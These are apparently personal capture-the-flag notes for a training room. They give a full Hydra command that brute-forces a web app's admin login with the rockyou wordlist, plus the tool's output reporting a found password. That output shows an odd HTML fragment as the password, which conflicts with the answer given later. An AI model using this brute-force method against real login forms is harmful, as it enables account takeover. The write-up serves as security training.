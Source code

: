 > Whats the name of the clown displayed on the homepage?
pennywise

google image search


# task 2 - Using Hydra to brute-force a login

# What request type is the Windows website login form using?
POST
- using burpsuite to intercept the submit, but most forms would be using POST anyways

- start brute-forcing an account
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.35.61 http-post-form '/Acount/login.aspx?ReturnURL=/admin:__VIEWSTATE=ZVTcmd%2B5%2Bjfwtfg9sZ7QdIEYu%2BKqSKDHz2qKighXXGxK76teI2jajTplUYwNd9kFWKn0YVwYyMEZH4F%2BDJEys54Lfj%2BnvsAysXfb%2BTvOPkp7KTz%2BCSgMmx43vb9b3ABcq0lBuzMnVTO7DkYO2vta1%2BY77hZ8%2FGwUKavMI%2BENuZaO3hmu&__EVENTVALIDATION=pmtNt%2Bz0ceNGMMB5hR2sItY4jTXUwvC7FlpMUTcMv%2BTGdbvyPpa0W0JKvxGvgNSrlSag2exgVIUQJv3V%2B5m3S4nu4TxZwW4G1Ovn7N4dFpTO9Fm%2B6sY9V0Kv6DtWolIxxuLnr01bHUcp9J%2F6Vax7QL%2BxLlWmK0TQtnU38VsoSRa8%2BRUX&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:login failed' -vv`

```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-24 14:53:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.35.61:80/Acount/login.aspx?ReturnURL=/admin:__VIEWSTATE=ZVTcmd%2B5%2Bjfwtfg9sZ7QdIEYu%2BKqSKDHz2qKighXXGxK76teI2jajTplUYwNd9kFWKn0YVwYyMEZH4F%2BDJEys54Lfj%2BnvsAysXfb%2BTvOPkp7KTz%2BCSgMmx43vb9b3ABcq0lBuzMnVTO7DkYO2vta1%2BY77hZ8%2FGwUKavMI%2BENuZaO3hmu&__EVENTVALIDATION=pmtNt%2Bz0ceNGMMB5hR2sItY4jTXUwvC7FlpMUTcMv%2BTGdbvyPpa0W0JKvxGvgNSrlSag2exgVIUQJv3V%2B5m3S4nu4TxZwW4G1Ovn7N4dFpTO9Fm%2B6sY9V0Kv6DtWolIxxuLnr01bHUcp9J%2F6Vax7QL%2BxLlWmK0TQtnU38VsoSRa8%2BRUX&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:login failed
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 1728.00 tries/min, 1728 tries in 00:01h, 14342671 to do in 138:21h, 16 active
[STATUS] 1733.33 tries/min, 5200 tries in 00:03h, 14339199 to do in 137:53h, 16 active
[STATUS] 1726.29 tries/min, 12084 tries in 00:07h, 14332315 to do in 138:23h, 16 active
[80][http-post-form] host: 10.10.35.61   login: admin   password: <div><embed src=\\
[STATUS] attack finished for 10.10.35.61 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-24 15:05:40
```


# Guess a username, choose a password wordlist and gain credentials to a user account!
1qaz2wsx

# task 3 - Compromise the machine
